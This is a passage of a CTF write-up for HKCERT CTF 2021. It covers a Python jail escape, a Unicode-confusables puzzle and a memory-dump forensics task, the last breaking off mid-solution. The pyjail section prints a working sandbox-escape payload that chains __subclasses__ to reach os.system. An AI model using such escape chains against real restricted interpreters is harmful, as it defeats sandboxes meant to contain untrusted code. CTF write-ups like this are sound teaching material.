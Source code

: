 ```
globals()['__builtins__'].__dict__.clear()
backup_print(backup_eval(input,{},{})) 
```
### Solution:  
First of all for pyjail1, after some researches I completed with below libraries suggested by this reference (https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#finding-dangerous-libraries-loaded). The final payload is below leveraging <class '_frozen_importlib._ModuleLock'>: ().__class__.__base__.__subclasses__().pop(80).__init__.__globals__.pop('sys').modules.pop('os').system('cat flag.txt')
  
Flag: `hkcert21{nev3r_uSe_pYth0n_45_sanDBox}`  
  
## Steamed Meatball (misc 150 pts)  
### Challenge:  
You got the source code already, now what do you want? Dockerfile?  
![pic](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/images/meatball.png?raw=true)  
`nc chalp.hkcert21.pwnable.hk 28338`  
### Solution:  
Didn't solve this one, afterwards learned that they're called Confusable characters in Unicode
https://util.unicode.org/UnicodeJsps/confusables.jsp
1. Search 山竹牛肉
2. Return 16 combinations `山⽵牛⾁ 山⽵牛肉 山⽵⽜⾁ 山⽵⽜肉 山竹牛⾁ 山竹牛肉 山竹⽜⾁ 山竹⽜肉 ⼭⽵牛⾁ ⼭⽵牛肉 ⼭⽵⽜⾁ ⼭⽵⽜肉 ⼭竹牛⾁ ⼭竹牛肉 ⼭竹⽜⾁ ⼭竹⽜肉`, put it in a file/tuple and send to server
  
Flag: `hkcert21{Dim-Sum-As-Variant_Dim-G-As-Boolean_MsgBox-CJK-Homograph}`  
  
## The Disappeared (forensics 200 pts)  
### Challenge:  
> 不怕 問善惡 在哪 傷勢會 剖白 堅忍至此仍未算轟動嗎 尚未 消失 的人 尚有 力氣 倒下

Find the login password for user `hkcertctf`.

### Attachments
-   [the-disappeared_d56bc14301029c65cee70f4c1528f2a9.dmp.xz](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/the-disappeared_d56bc14301029c65cee70f4c1528f2a9.dmp.xz)
### Solution:  
1. Extract the .dmp file
2. `strings disappeared_d56bc14301029c65cee70f4c1528f2a9.dmp > strings.txt`
3. `cat strings.txt | grep hkcert21`
    